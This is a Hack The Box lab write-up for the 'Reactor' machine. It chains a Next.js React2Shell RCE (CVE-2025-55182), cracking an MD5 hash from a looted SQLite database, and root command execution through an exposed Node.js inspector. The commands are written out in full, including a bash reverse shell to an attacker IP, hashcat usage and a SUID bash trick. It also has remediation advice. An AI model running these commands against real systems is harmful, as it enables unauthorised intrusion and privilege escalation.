

# HTB Reactor Writeup

> **Platform:** Hack The Box  
> **Machine:** Reactor  
> **Category:** Linux, Web Exploitation, Node.js, Privilege Escalation  
> **Difficulty:** Not specified  
> **Author:** Muhammad Iqbal Latif  
> **Status:** Solved  
> **Flags:** Redacted

---

## Table of Contents

- [1. Overview](#1-overview)
- [2. Attack Chain Summary](#2-attack-chain-summary)
- [3. Initial Reconnaissance](#3-initial-reconnaissance)
- [4. Web Service Analysis](#4-web-service-analysis)
- [5. Technology Fingerprinting](#5-technology-fingerprinting)
- [6. Vulnerability Confirmation with Nuclei](#6-vulnerability-confirmation-with-nuclei)
- [7. Initial Access with React2Shell](#7-initial-access-with-react2shell)
- [8. Reverse Shell as node](#8-reverse-shell-as-node)
- [9. Application Enumeration](#9-application-enumeration)
- [10. Database Looting and Credential Discovery](#10-database-looting-and-credential-discovery)
- [11. User Pivot to engineer](#11-user-pivot-to-engineer)
- [12. Privilege Escalation Enumeration](#12-privilege-escalation-enumeration)
- [13. Root via Node.js Inspector](#13-root-via-nodejs-inspector)
- [14. Why the Exploit Worked](#14-why-the-exploit-worked)
- [15. Useful Commands Checklist](#15-useful-commands-checklist)
- [16. Knowledge Gaps and Notes](#16-knowledge-gaps-and-notes)
- [17. Remediation Notes](#17-remediation-notes)
- [18. Final Takeaways](#18-final-takeaways)

---

# 1. Overview

Reactor was a Linux machine exposing a **Next.js web application** on port `3000`. The web application was vulnerable to **React2Shell**, tracked as **CVE-2025-55182**, which allowed unauthenticated remote command execution.

After gaining code execution as the `node` user, we found a local SQLite database containing user hashes. The `engineer` hash was cracked to obtain a password. With that password, we logged in as `engineer` through SSH.

Privilege escalation was achieved by abusing a **root-owned Node.js process** running with the Node inspector enabled on localhost port `9229`. Attaching to the debugger allowed command execution as root.

> [!IMPORTANT]
> Flags are intentionally redacted. This writeup explains the methodology without publishing flag values.

---

# 2. Attack Chain Summary



Short version of the full chain:

```text
Recon
→ Next.js 15.0.3 discovered
→ CVE-2025-55182 confirmed
→ RCE as node
→ SQLite DB leak
→ engineer credentials recovered
→ SSH as engineer
→ root Node inspector exposed locally
→ root command execution
```

---

# 3. Initial Reconnaissance

The first scan was performed using default scripts and version detection:

```bash
nmap -sC -sV 10.129.113.86
```

Important output:

```text
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
3000/tcp open     ppp?
7004/tcp filtered afs3-kaserver
```

Although Nmap labeled port `3000` as `ppp?`, the fingerprint clearly showed HTTP responses:

```http
HTTP/1.1 200 OK
X-Powered-By: Next.js
Content-Type: text/html; charset=utf-8
```

## Findings

| Port | Status | Meaning |
|---|---:|---|
| `22/tcp` | Open | SSH, useful later after credentials are found |
| `3000/tcp` | Open | Main web application |
| `7004/tcp` | Filtered | Initially suspicious, but not the final privesc path |

> [!TIP]
> Do not blindly trust Nmap service names. The service name beside a port is often based on a port database. The HTTP headers and response body are more important.

---

# 4. Web Service Analysis

The web application was checked manually using `curl`:

```bash
curl -i http://10.129.113.86:3000/
```

Important response headers:

```http
HTTP/1.1 200 OK
X-Powered-By: Next.js
x-nextjs-cache: HIT
x-nextjs-prerender: 1
Content-Type: text/html; charset=utf-8
```

Important page metadata:

```html
<title>ReactorWatch | Core Monitoring System</title>
<meta name="description" content="Nuclear Reactor Core Monitoring Dashboard" />
```

The page identified itself as:

```text
REACTORWATCH
CORE MONITORING SYSTEM v3.2.1
NUCLEAR DYNAMICS CORP.
FACILITY: SITE-7
CLASSIFICATION: RESTRICTED
```

## Leaked Personnel Names

The dashboard showed on-site personnel:

```text
Dr. Elena Rodriguez    Lead Nuclear Engineer
Marcus Kim             Senior Technician
James Thompson         Safety Officer
```

These names were useful for username generation, although the final user pivot came from the SQLite database.

Potential usernames:

```text
elena
rodriguez
elena.rodriguez
erodriguez
marcus
marcus.kim
mkim
james
james.thompson
jthompson
```

> [!TIP]
> Names on dashboards, reports, comments, Git history, and logs are often useful for username lists. Even if they are not used immediately, store them in notes.

---

# 5. Technology Fingerprinting

The response showed that the app used **Next.js**:

```http
X-Powered-By: Next.js
```

The HTML also included Next.js static chunks:

```text
/_next/static/chunks/webpack-db0a529a99835594.js
/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js
/_next/static/chunks/517-d083b552e04dead1.js
/_next/static/chunks/main-app-4fbb4b1f318e39a0.js
/_next/static/chunks/polyfills-42372ed130431b0a.js
```

Wappalyzer later showed:

```text
Next.js 15.0.3
React
Tailwind CSS, low confidence
```

This version was important because **Next.js 15.0.3** was vulnerable to React Server Components related exploitation in this room.

> [!NOTE]
> Wappalyzer is useful, but version detection should be treated as a lead, not final proof. Always confirm through headers, assets, package files, source maps, or vulnerability scanners where possible.

---

# 6. Vulnerability Confirmation with Nuclei

Nuclei was used against the web application:

```bash
nuclei -target http://10.129.113.86:3000/
```

Important result:

```text
[CVE-2025-55182] [http] [critical] http://10.129.113.86:3000/
[tech-detect:next.js] [http] [info] http://10.129.113.86:3000/
```

This confirmed that the target matched a template for **CVE-2025-55182**, commonly called **React2Shell**.

## What CVE-2025-55182 Means Here

CVE-2025-55182 is a React Server Components vulnerability that can lead to unauthenticated remote code execution in vulnerable applications.

In this machine, the conditions lined up:

```text
Next.js application
React Server Components indicators
Next.js 15.0.3
Nuclei confirmed CVE-2025-55182
```

> [!WARNING]
> A Nuclei finding should be validated with a safe command such as `id`, `whoami`, or `hostname`. Do not immediately run destructive commands or reverse shells.

---

# 7. Initial Access with React2Shell

A public Python exploit was downloaded and inspected.

The exploit file was:

```text
CVE-2025-55182.py
```

The script supported arguments like:

```text
-t / --target      Target URL
-c / --command     Command to execute
-i / --interactive Interactive mode
-v / --verbose     Verbose output
```

Before running it, the script was checked:

```bash
python3 -m py_compile CVE-2025-55182.py
```

Dependencies:

```bash
python3 -m pip install requests urllib3
```

## Safe RCE Tests

The first commands executed were harmless:

```bash
python3 CVE-2025-55182.py -t http://10.129.113.86:3000/ -c "whoami"
python3 CVE-2025-55182.py -t http://10.129.113.86:3000/ -c "hostname"
python3 CVE-2025-55182.py -t http://10.129.113.86:3000/ -c "pwd"
python3 CVE-2025-55182.py -t http://10.129.113.86:3000/ -c "ls -la"
```

Output confirmed code execution:

```text
whoami   → node
hostname → reactor
pwd      → /opt/reactor-app
```

Directory listing:

```text
total 76
drwxr-xr-x  5 node node  4096 Dec 28  2025 .
drwxr-xr-x  4 root root  4096 Apr 27 11:26 ..
drwxr-xr-x  2 node node  4096 Dec 28  2025 app
-rw-r--r--  1 node node   276 Dec 28  2025 .env
drwxr-xr-x  7 node node  4096 Dec 28  2025 .next
-rw-r--r--  1 node node   172 Dec 28  2025 next.config.js
drwxr-xr-x 30 node node  4096 Dec 28  2025 node_modules
-rw-r--r--  1 node node   269 Dec 28  2025 package.json
-rw-r--r--  1 node node 29329 Dec 28  2025 package-lock.json
-rw-r-----  1 node node 12288 Dec 28  2025 reactor.db
```

Important loot candidates:

```text
.env
reactor.db
package.json
next.config.js
app/
```

---

# 8. Reverse Shell as node

After confirming RCE, a reverse shell was obtained.

Attacker listener:

```bash
nc -lvnp 9001
```

The attacker VPN IP was:

```text
10.10.14.25
```

Reverse shell payload:

```bash
python3 CVE-2025-55182.py \
  -t http://10.129.113.86:3000/ \
  -c "bash -c \"bash -i >& /dev/tcp/10.10.14.25/9001 0>&1\""
```

Shell received:

```text
node@reactor:/opt/reactor-app$
```

## Shell Stabilization

Useful stabilization commands:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 40 cols 120
```

Then background locally with `Ctrl+Z` and run:

```bash
stty raw -echo; fg
```

> [!TIP]
> Reverse shells are usually unstable. SSH is cleaner once you have valid credentials.

---

# 9. Application Enumeration

From the shell, the application folder was inspected:

```bash
ls -la /opt/reactor-app
```

Interesting files:

```text
.env
reactor.db
app/
.next/
package.json
next.config.js
```

The SQLite client was available:

```bash
which sqlite3
```

Output:

```text
/usr/bin/sqlite3
```

> [!NOTE]
> `which reactor.db` does not work because `reactor.db` is a file, not a command. Use `file reactor.db`, `ls -la reactor.db`, or `sqlite3 reactor.db`.

---

# 10. Database Looting and Credential Discovery

The SQLite database was dumped:

```bash
sqlite3 reactor.db .dump > /tmp/reactor_dump.sql
cat /tmp/reactor_dump.sql
```

Database schema:

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password_hash TEXT NOT NULL,
    role TEXT NOT NULL,
    email TEXT
);
```

Users table contained:

```text
admin      a203b22191d744a4e70ada5c101b17b8    administrator
engineer   39d97110eafe2a9a68639812cd271e8e    operator
```

The hashes were 32 hex characters, which strongly suggested **MD5**.

The `engineer` hash was cracked:

```text
39d97110eafe2a9a68639812cd271e8e → reactor1
```

Verification:

```bash
echo -n 'reactor1' | md5sum
```

Expected hash:

```text
39d97110eafe2a9a68639812cd271e8e
```

## Why This Matters

The database gave us a valid Linux user credential:

```text
username: engineer
password: reactor1
```

> [!TIP]
> When you see 32 lowercase hex characters, try raw MD5 first. Use `hashid`, `hashcat --identify`, or pattern recognition.

Hashcat example:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

John example:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

# 11. User Pivot to engineer

From the `node` shell:

```bash
su engineer
```

Password:

```text
reactor1
```

Then:

```bash
cd /home/engineer
ls
cat user.txt
```

The user flag was obtained, but it is redacted here:

```text
user.txt → [REDACTED]
```

A better method after finding the credentials was to use SSH:

```bash
ssh engineer@10.129.113.86
```

Password:

```text
reactor1
```

> [!TIP]
> Once valid SSH credentials are found, prefer SSH over a reverse shell. SSH gives a proper TTY, easier copy-paste, better command behavior, and simpler tunneling.

---

# 12. Privilege Escalation Enumeration

After logging in as `engineer`, local processes and listening ports were checked.

```bash
ss -tunlp
ps aux | grep node
```

Important listening port:

```text
tcp LISTEN 127.0.0.1:9229
```

Important process:

```text
root  /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

This was the privilege escalation path.

## Why This Is Suspicious

Node.js Inspector is a debugging interface. It allows developers to inspect and execute JavaScript inside a running Node.js process.

Here, the process was:

```text
Owned by root
Running with --inspect
Bound to 127.0.0.1:9229
```

Since we had SSH access to the box, we could connect to `127.0.0.1:9229` locally.

> [!IMPORTANT]
> A debugger attached to a privileged process is dangerous. If you can execute code inside a root process, your code runs as root.

---

# 13. Root via Node.js Inspector

The inspector endpoint was confirmed:

```bash
curl -s http://127.0.0.1:9229/json/list
```

Output contained:

```json
{
  "description": "node.js instance",
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "url": "file:///opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/..."
}
```

Then we attached using Node's built-in inspector client:

```bash
node inspect 127.0.0.1:9229
```

At the prompt:

```text
debug>
```

Entered REPL mode:

```text
repl
```

## First Attempt

Inside the Node REPL, this failed:

```js
require('child_process').execSync('id').toString()
```

Error:

```text
ReferenceError: require is not defined
```

This happened because the debugger REPL context did not expose `require` directly.

## Working Method

This worked:

```js
process.mainModule.require('child_process').execSync('id').toString()
```

Output:

```text
uid=0(root) gid=0(root) groups=0(root)
```

That confirmed root command execution.

## Reading Root Flag

The root directory was listed:

```js
process.mainModule.require('child_process').execSync('ls -la /root').toString()
```

Then root flag was read:

```js
process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()
```

Flag output is redacted:

```text
root.txt → [REDACTED]
```

## Optional: Spawn a Root SUID Bash

Instead of reading the flag directly, you could create a root-owned SUID bash:

```js
process.mainModule.require('child_process').execSync('cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash').toString()
```

Then exit the debugger and run:

```bash
/tmp/rootbash -p
id
cat /root/root.txt
```

> [!WARNING]
> On real systems, creating SUID binaries is intrusive. In HTB labs it is acceptable for learning, but in real assessments you should follow rules of engagement and avoid unnecessary persistence.

---

# 14. Why the Exploit Worked

## Initial Foothold

The web app was vulnerable because it ran a vulnerable React Server Components stack:

```text
Next.js 15.0.3
React Server Components behavior
CVE-2025-55182 confirmed by Nuclei
```

The exploit sent a crafted request that caused the server-side Node.js process to execute attacker-controlled commands.

Result:

```text
Remote command execution as node
```

## User Pivot

The app directory contained a local database:

```text
/opt/reactor-app/reactor.db
```

The database stored weak MD5 password hashes. The `engineer` password was cracked.

Result:

```text
node → engineer
```

## Root Privilege Escalation

A root process exposed the Node inspector:

```text
/usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

Because `engineer` could access localhost, we connected to the root debugger and executed commands through:

```js
process.mainModule.require('child_process').execSync(...)
```

Result:

```text
engineer → root
```

---

# 15. Useful Commands Checklist

## Recon

```bash
nmap -sC -sV 10.129.113.86
curl -i http://10.129.113.86:3000/
whatweb http://10.129.113.86:3000
```

## Nuclei

```bash
nuclei -target http://10.129.113.86:3000/
nuclei -u http://10.129.113.86:3000/ -id CVE-2025-55182 -vv
```

## React2Shell PoC

```bash
python3 CVE-2025-55182.py -t http://10.129.113.86:3000/ -c "id"
python3 CVE-2025-55182.py -t http://10.129.113.86:3000/ -c "whoami"
python3 CVE-2025-55182.py -t http://10.129.113.86:3000/ -c "pwd"
```

## Reverse Shell

```bash
nc -lvnp 9001
```

```bash
python3 CVE-2025-55182.py \
  -t http://10.129.113.86:3000/ \
  -c "bash -c \"bash -i >& /dev/tcp/10.10.14.25/9001 0>&1\""
```

## SQLite

```bash
sqlite3 reactor.db .tables
sqlite3 reactor.db .schema
sqlite3 reactor.db .dump
sqlite3 reactor.db .dump > /tmp/reactor_dump.sql
cat /tmp/reactor_dump.sql
```

## Hash Verification

```bash
echo -n 'reactor1' | md5sum
```

## SSH

```bash
ssh engineer@10.129.113.86
```

## Node Inspector Privesc

```bash
curl -s http://127.0.0.1:9229/json/list
node inspect 127.0.0.1:9229
```

Inside debugger:

```text
repl
```

Inside REPL:

```js
process.mainModule.require('child_process').execSync('id').toString()
process.mainModule.require('child_process').execSync('ls -la /root').toString()
process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()
```

---

# 16. Knowledge Gaps and Notes

## 16.1 Next.js Static Chunks

Next.js apps often expose static assets under:

```text
/_next/static/chunks/
```

These chunks can reveal:

```text
API routes
hidden paths
hardcoded strings
feature flags
internal names
version clues
```

Useful command:

```bash
curl -s http://target:3000/ | grep -oE '/_next/static/[^"]+\.js' | sort -u
```

---

## 16.2 React Server Components Clues

The page contained signs of React Server Components and Next.js App Router behavior:

```text
RSC
Next-Router-State-Tree
self.__next_f
```

These clues matter because React2Shell targets the React Server Components ecosystem.

---

## 16.3 Why MD5 Was Guessable

The hashes were:

```text
32 characters
hexadecimal only
lowercase
```

That pattern commonly indicates MD5.

Examples:

```text
MD5      → 32 hex chars
SHA1     → 40 hex chars
SHA256   → 64 hex chars
bcrypt   → starts with $2a$, $2b$, or $2y$
```

---

## 16.4 Why `whoami` Failed Inside Node REPL

Inside the Node debugger REPL, we are not in Bash. We are in a JavaScript execution context.

So this fails:

```js
whoami
ls
id
```

Because JavaScript thinks they are variable names.

Correct approach:

```js
process.mainModule.require('child_process').execSync('whoami').toString()
```

---

## 16.5 Why `require` Was Not Defined

In some Node inspector contexts, `require` is not directly exposed. But it may still be reachable through:

```js
process.mainModule.require(...)
```

Alternative methods sometimes include:

```js
module.constructor._load('child_process')
```

In this room, this worked:

```js
process.mainModule.require('child_process')
```

---

## 16.6 Why SSH Was Better Than Reverse Shell

A reverse shell is useful for initial access, but it often has problems:

```text
No job control
Broken Ctrl+C behavior
Bad terminal size
Difficult password prompts
Difficult port forwarding
```

SSH gives:

```text
Stable TTY
Proper authentication
Port forwarding
Cleaner privilege escalation workflow
```

---

# 17. Remediation Notes

If this were a real system, the main fixes would be:

## Patch Vulnerable Frameworks

Upgrade Next.js and React Server Components packages to patched versions.

```text
Do not run vulnerable Next.js / React Server Components versions.
```

## Disable Debug Interfaces in Production

Never run production Node.js processes with:

```bash
--inspect
```

Especially not as root.

## Do Not Run App Workers as Root

The uptime monitor should run as a low-privileged service user, not root.

## Protect Local Services

Local-only services are still reachable by any local user. If a low-privileged user can SSH in, localhost services become reachable.

## Do Not Store Weak Password Hashes

MD5 is not suitable for password storage.

Use:

```text
bcrypt
scrypt
Argon2id
PBKDF2 with strong parameters
```

## Avoid Password Reuse

The cracked web/database password gave access to a real Linux account. Application credentials and system credentials should not be reused.

---

# 18. Final Takeaways

This machine taught several useful lessons:

1. **Version detection matters.** Next.js `15.0.3` was the clue that made React2Shell worth testing.
2. **Nuclei is useful for confirmation.** The CVE finding guided the exploitation path.
3. **Always loot app files after RCE.** The SQLite database contained the next credential.
4. **Weak hashes are dangerous.** MD5 made the `engineer` password recoverable.
5. **SSH improves post-exploitation.** It made the privilege escalation stage cleaner.
6. **Debuggers are dangerous in production.** A root Node inspector exposed on localhost gave full root command execution.
7. **Understand your shell context.** In Node REPL, use JavaScript, not Bash commands.

---

# Final Chain, Clean Version

```text
1. Scan target.
2. Find Next.js app on port 3000.
3. Identify Next.js 15.0.3 with Wappalyzer.
4. Confirm CVE-2025-55182 using Nuclei.
5. Use React2Shell PoC to execute commands as node.
6. Get reverse shell.
7. Dump /opt/reactor-app/reactor.db.
8. Crack engineer MD5 hash.
9. SSH as engineer.
10. Discover root Node inspector on 127.0.0.1:9229.
11. Attach using node inspect.
12. Execute root commands through process.mainModule.require().
13. Read root flag, redacted.
```

---

> [!SUCCESS]
> Machine completed. Flags are intentionally omitted.

